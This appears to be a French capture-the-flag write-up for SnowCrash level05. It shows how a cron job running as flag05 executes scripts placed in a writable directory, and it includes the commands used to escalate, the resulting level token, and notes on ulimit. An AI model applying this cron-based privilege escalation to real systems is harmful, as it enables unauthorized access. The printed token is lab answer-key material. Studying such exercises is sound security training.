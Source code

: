 LEVEL 05

------------------------------------------------------------------------------------------------------------------------

    find . -user level05 2> /dev/null | grep -v proc
                 flag05
    find . -perm /u=s,g=s

* Recherches


    Pareil, lors de l'analyse global, on avait trouvé : 
    ls -la /var/mail
    -rw-r--r--+ 1 root mail  58 Dec 21 21:27 level05
    cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

    Ca ressemble fortement à une crontab
    level05@SnowCrash:/$ crontab
    ^Clevel05@SnowCrash:/$ crontab -l
    no crontab for level05
    level05@SnowCrash:/$ crontab -u flag05
    must be privileged to use -u

    On a aucun droit mais on devine que la crontab pourra trigger le getflag
    
    La crontab s'execute every 2nd minute (https://crontab.guru/#*/2_*_*_*_*)

    Via find . -user flag05 2> /dev/null | grep -v proc
        ./usr/sbin/openarenaserver
        ./rofs/usr/sbin/openarenaserver

    Allons voir dans /usr/sbin/
    ll
    -rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver*

        
        #!/bin/sh
        for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
        done
    
    cd /opt/openarenaserver
    On voit qu'il itère sur les fichiers dans /opt/openarenaserver/*, avant de les rm -rf
    On créer un fichier dans /opt/openarenaserver dans lequel on écrit par exemple "getflag"
    sh openarenaserver depuis /usr/bin executé le contenu du fichier
    Mais pas de token

    Il faut attendre que la crontab execute le script shell toutes les 2 minutes, et donc echo le getflag dans un fichier, par exemple dans tmp

* Solution

    cat /var/mail/level05
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    La crontab s'execute every 2nd minute (https://crontab.guru/#*/2_*_*_*_*)

    cat openarenaserver
        
        #!/bin/sh
        for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
        done

    La crontab execute toutes les 2 minutes ce script, en tant que flag05 à priori

    echo "getflag > /tmp/flag" > xFile          (dans /opt/openarenaserver)
    Attendre 2 minutes max que la crontab s'execute
    cat /tmp/flag viuaaale9huek52boumoomioc
    su level06 viuaaale9huek52boumoomioc


------------------------------------------------------------------------------------------------------------------------

NB : 

Difference between /opt and /usr/local? : While both are designed to contain files not belonging to the operating system, /opt and /usr/local are not intended to contain the same set of files.

- /usr/local is a place to install files built by the administrator

- On the other hand, /opt is a directory for installing unbundled packages
  (i.e. packages not part of the Operating System distribution, but provided by an independent source) each one in its own subdirectory. T


NB2 :

Les limites sont des niveaux maximum acceptés par le système concernant la gestion des ressources. Il est possible d’afficher ces valeurs actuellement settées pour l’utilisateur courant grâce à la commande:

$ ulimit -a

En deuxième colonne, vous avez l’unité de mesure de la limite, et son raccourci, qui nous servira à allouer et afficher des limites spécifiques


core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 7873
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) 5
max user processes              (-u) 7873
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited

- File Size : Il s’agit là de la taille maximale de fichier qu’un utilisateur peut créer. La valeur est exprimée en kB et est bien sûr illimitée par défaut.

- Open Files : Le nombre de fichiers qu’un utilisateur peut ouvrir via ses processus. La valeur de 1024 par défaut est parfois dépassée par certaines grosses applications, ce qui mène à un crash sans pitié. C’est un des rares cas où l’ont va plutôt chercher à agrandir la valeur plutôt que de la limiter.

- CPU Time : Le temps cpu accordé à l’utilisateur et aux processus qu’il pourra lancer. Celui-ci est compté en secondes. Une fois que ce temps processeur est dépassé, le shell de l’utilisateur est sauvagement fermé via un kill. Pour plus d’infos sur le CPU Time, il y a un grand article de qualité qui en parle ici ! :-P

- Max User Processes : Le nombre maximum de processus acceptés simultanément pour un user. Peut être utile si vous êtes très paranoïaque (peut par exemple prévenir les Fork Bomb).

- Virtual Memory : Même s’il y a trois valeurs gérant la mémoire allouée, vous pouvez ne penser qu’à celle-ci. Il correspond à l’onglet VIRT dans le tableau de top. Là encore, mon article sur top pourrait vous intéresser.


- ROFS

Rofs is a read-only filesystem that allows you to create a read-only mountpoint of a read-write directory on your system.